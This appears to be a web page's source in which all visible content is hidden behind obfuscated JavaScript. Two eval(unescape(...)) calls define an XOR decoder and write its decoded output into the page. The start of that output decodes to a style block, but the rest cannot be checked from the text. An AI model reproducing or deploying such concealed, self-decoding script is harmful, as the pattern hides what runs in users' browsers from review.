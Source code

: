 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%68%30%34%36%64%30%37%61%61%33%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%39%38%30%35%32%38%32%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%33%37%35%35%32%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%31%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%68%30%34%36%64%30%37%61%61%33%63%28%27') + '%3b%76%72%7e%6c%6f%26%7d%79%76%63%3b%21%73%64%7e%71%31%6d%73%7c%20%38%24%0b%09%08%09%26%25%20%6a%77%6d%79%26%79%24%0c%0d%0c%0c%25%20%28%26%29%22%64%67%61%6e%6e%71%77%72%6e%6c%29%62%6d%65%6d%63%39%27%74%74%69%28%21%6e%7d%76%76%71%3e%32%36%6c%61%61%6b%6b%28%7d%75%69%66%68%71%29%66%77%6a%31%6d%3e%3c%3a%62%60%3c%3b%3e%35%36%3d%63%3d%34%3e%65%65%67%63%37%3e%3a%60%63%63%3c%62%6d%30%64%3d%35%77%70%6c%64%69%72%69%69%72%70%7e%71%63%6c%3e%40%43%36%75%30%72%7a%60%3d%75%37%62%30%33%36%2b%69%63%60%20%29%3b%0b%0e%0c%0d%23%26%25%20%28%26%26%7b%61%66%69%68%73%2c%64%66%65%65%6f%7b%73%71%6a%60%2c%72%68%7c%62%3a%28%63%78%74%61%76%39%0c%0d%0c%0c%25%20%27%69%78%78%29%66%67%66%6a%6a%74%74%77%66%62%26%77%6d%7e%63%39%27%66%77%73%67%7a%3b%06%08%09%0e%24%23%28%72%29%67%63%6d%6b%60%70%77%73%6a%67%28%76%6d%7f%67%32%26%6c%73%70%63%76%3e%08%09%09%0f%20%28%64%6a%67%6b%6d%76%72%70%6d%62%2a%75%63%7c%6e%38%26%61%75%75%60%71%3b%0a%0a%07%0c%29%22%64%67%61%6e%6e%71%77%72%6e%6c%29%79%73%73%6f%70%68%76%6d%3c%60%67%66%72%6e%70%3b%0b%0e%0c%0d%08%64%66%65%65%6f%7b%73%71%6a%60%2c%75%64%76%62%63%7c%3c%29%6c%77%2b%76%64%77%64%65%71%3d%07%0c%06%08%26%24%24%23%65%60%63%68%69%7a%77%7e%6c%62%2b%61%72%6b%72%74%3f%20%2d%36%39%32%36%34%34%3e%27%08%0d%0a%0a%07%0c%29%22%26%61%75%6f%76%71%3c%25%25%4e%40%4f%44%40%42%39%23%0c%0c%0c%0a%0a%28%26%29%64%77%6a%70%2c%61%60%69%6e%6c%73%3c%29%20%4b%67%68%60%68%21%3b%25%0b%07%0c%06%08%26%24%24%77%60%7b%72%2a%63%64%6d%60%6c%3c%24%61%64%69%77%61%77%3d%28%0d%06%08%09%0e%24%23%27%77%61%7d%74%27%62%6e%67%77%76%67%77%6c%72%68%3f%20%66%77%67%65%3b%24%0f%7c%27%08%09%0f%0f%02%26%29%22%23%6d%76%64%60%77%73%25%7d%28%0d%02%7b%6d%60%70%6b%3d%23%3e%37%30%78%7e%34%22%0d%0f%66%72%75%67%61%77%2f%7d%72%72%6e%61%3e%24%72%70%77%73%62%74%35%26%02%7d%26%0b%0e%0c%0d%23%26%25%25%6e%77%78%76%61%76%24%7e%27%08%0d%63%71%66%72%26%77%6d%7e%63%39%27%38%76%71%3d%28%0d%02%73%76%67%61%68%73%78%3c%25%2e%31%3b%29%09%79%24%0f%23%0c%2d%6f%69%71%71%26%74%22%0d%0b%0e%0c%0d%23%26%25%74%6f%7e%7d%2d%73%6c%67%67%76%7a%3c%25%30%28%36%29%31%36%74%7c%23%22%45%31%3e%39%38%36%34%22%0d%0f%62%72%69%77%29%63%63%67%6d%65%79%3c%24%26%41%6b%60%63%68%20%59%76%7c%22%57%6a%63%21%3a%23%0d%7a%20%03%26%06%08%09%0e%24%23%27%2d%64%69%77%6f%6f%65%73%7f%24%79%23%0c%08%72%62%78%7c%29%7c%6a%65%60%75%7a%3d%33%76%7d%20%38%76%71%22%35%74%7c%23%64%70%71%66%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%63%7b%71%6a%2e%36%74%7c%23%37%73%7e%25%33%78%7e%29%70%61%60%28%33%77%7b%26%35%70%70%26%3a%72%7e%24%76%64%63%2f%36%75%78%28%36%79%7a%26%37%74%7b%27%71%61%61%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%72%6f%62%25%32%76%7c%24%33%77%7b%26%36%70%70%26%7b%65%62%28%34%73%7f%23%36%75%78%28%35%79%7a%26%76%63%67%2b%33%76%7d%20%38%76%71%22%35%74%7c%23%75%64%62%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%77%67%6c%2a%39%72%7e%24%34%73%7f%23%35%75%78%28%74%6e%66%2a%34%74%7b%27%33%76%7d%20%3b%76%71%22%65%77%73%60%3a%23%0d%0e%66%79%68%7d%2d%60%67%6b%68%6b%78%3c%25%22%4a%6a%6a%67%6b%24%55%73%72%23%57%6b%67%2a%26%02%7d%26%0f%24%08%08%09%09%0f%20%28%26%27%70%61%60%6d%6f%76%7a%26%78%20%03%0d%7d%65%7e%70%2b%76%6f%60%62%74%79%32%26%39%22%36%24%37%33%77%7b%26%7e%67%64%6a%78%7b%3b%24%0f%08%61%72%68%71%2f%6e%65%66%69%6a%7f%3e%23%25%41%6a%66%65%65%26%58%72%73%24%55%6d%60%21%26%0e%7f%28%0d%29%09%09%0e%0b%09%27%23%26%2b%79%60%6d%7d%65%6f%68%75%7a%27%7e%26%0e%74%6f%7e%7d%2d%73%6c%67%67%76%7a%3c%35%70%70%26%39%72%7e%24%37%73%7f%23%6f%77%67%6f%68%25%32%76%7c%24%33%77%7b%26%36%70%70%26%60%70%61%63%6a%2f%37%73%7e%25%30%78%7e%29%31%76%7c%24%60%74%74%65%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%6c%72%6f%61%67%2e%36%74%7c%23%37%73%7e%25%33%78%7e%29%70%61%60%28%33%77%7b%26%35%70%70%26%3a%72%7e%24%76%64%63%2f%36%75%78%28%36%79%7a%26%37%74%7b%27%71%61%61%2c%38%76%71%22%36%74%7c%23%34%73%7e%25%72%6f%62%25%32%76%7c%24%33%77%7b%26%36%70%70%26%7b%65%62%28%34%73%7f%23%36%75%78%28%35%79%7a%26%76%63%67%2b%33%76%7d%20%38%76%71%22%35%74%7c%23%75%64%62%29%30%78%7e%29%32%76%7c%24%30%77%7b%26%25%69%7a%61%6e%6c%3b%24%0f%08%61%72%68%71%2f%6e%65%66%69%6a%7f%3e%23%25%41%6a%66%65%65%26%58%72%73%24%55%6d%60%21%3b%25%0b%77%09%03%0d%0c%24%24%23%3b%32%73%71%7b%64%61%379805282%36%32%37%34%31%39%37' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

